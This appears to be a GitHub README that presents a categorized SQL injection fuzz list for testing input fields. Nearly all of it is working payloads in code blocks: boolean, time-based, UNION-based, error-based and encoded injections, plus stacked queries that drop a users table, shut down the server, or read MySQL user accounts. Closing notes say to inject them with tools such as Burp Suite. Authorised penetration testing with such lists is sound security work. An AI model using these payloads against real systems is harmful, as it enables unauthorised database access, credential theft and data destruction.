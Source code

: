 # sqli
SQLi 'fuzz' list

A **SQLi fuzz list** is a set of payloads designed to test for SQL Injection vulnerabilities by injecting various SQL syntax patterns into an input field. These payloads attempt to exploit common weaknesses in SQL queries. Below is a categorized list of common SQL injection fuzz payloads:

---

### **1. Basic SQL Injection Payloads**
```sql
'
''
`
```
---
### **2. Comment Injection**
```sql
-- 
--+ 
# 
/*
```
---
### **3. Boolean-Based Payloads**
```sql
' OR '1'='1
' AND '1'='2
' OR '1'='2
```
---
### **4. Time-Based Payloads**
```sql
' OR SLEEP(5) --
'; WAITFOR DELAY '0:0:5' --
```
---
### **5. UNION-Based Payloads**
```sql
' UNION SELECT null, null --
' UNION SELECT 1,2,3 --
' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL --
```
---
### **6. Stacked Queries**
```sql
'; DROP TABLE users --
'; SHUTDOWN --
'; SELECT user, host FROM mysql.user --
```
---
### **7. Blind Injection**
```sql
' AND 1=1 --
' AND 1=2 --
```
---
### **8. Bypassing Input Validation**
```sql
%27 OR 1=1--
%27 AND 1=2--
```
---
### **9. Conditional Error-Based Payloads**
```sql
' AND (SELECT 1 FROM dual WHERE 1=1)=1 --
' AND (SELECT 1 FROM dual WHERE 1=0)=1 --
```
---
### **10. Advanced Payloads**
```sql
' AND 1=(SELECT COUNT(*) FROM information_schema.tables) --
' UNION SELECT null, version(), user() --
```
---

### **Usage**
- Test each payload systematically.
- Use a tool like **Burp Suite**, **OWASP ZAP**, or a manual HTTP client to inject these payloads.
- Customize them to fit the backend database (MySQL, MSSQL, Oracle, PostgreSQL, etc.).

